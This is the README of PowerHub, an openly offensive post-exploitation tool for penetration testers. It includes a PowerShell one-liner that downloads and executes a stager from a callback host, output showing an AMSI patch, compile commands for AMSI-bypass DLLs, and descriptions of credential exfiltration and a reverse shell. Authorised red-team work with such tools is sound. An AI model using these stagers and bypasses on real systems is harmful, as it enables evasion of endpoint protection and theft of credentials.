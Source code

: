 PowerHub
========

PowerHub is a convenient post exploitation tool which aids a pentester in
transferring files, in particular code which may get flagged by endpoint
protection. Check out the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)!

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

On top of that, PowerHub comes with a reverse PowerShell, making it suitable
for any kind of post-exploitation action.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;IEX $K.downloadstring('http://192.168.11.2:8000/0');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
AmsiScanBuffer patch has been applied.
0
PS C:\Users\avollmer> lhm powerview
[*] /ps1/PowerSploit/Recon/PowerView.ps1 imported.
PS C:\Users\avollmer> Get-LocalGroup | pth -Name groups.json
```

![PowerHub in action](https://github.com/AdrianVollmer/PowerHub/blob/master/img/inaction.png)


Installation
============

PowerHub itself does not need to be installed. Just execute `powerhub.py`.
However, there are a few dependencies. They are listed in the
[requirements.txt](https://github.com/AdrianVollmer/PowerHub/blob/master/requirements.txt).
Install them either via `pip3 install --user -r requirements.txt` or use a
virtual environment:

Run `python3 -m venv env` to create a virtual environment, then use `source
env/bin/activate` to activate it. Now run `pip3 install -r requirements.txt`
to install the depencendies inside the virtual environment.

Python2 is not supported.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Binaries
========

If you don't trust the binaries, you can generate them like so:

* `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:library -platform:x86 -out:amsi.dll zc00l.txt`
* `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:library -platform:x64 -out:amsi64.dll zc00l.txt`

The contents of `zc00l.txt` are available [here](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html).

Credits
=======

PowerHub is partially based on the awesome work of zc00l, mar10, p3nt4.
And of course, it would be nothing without @harmj0y, @mattifestation and the
many other contributors to [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
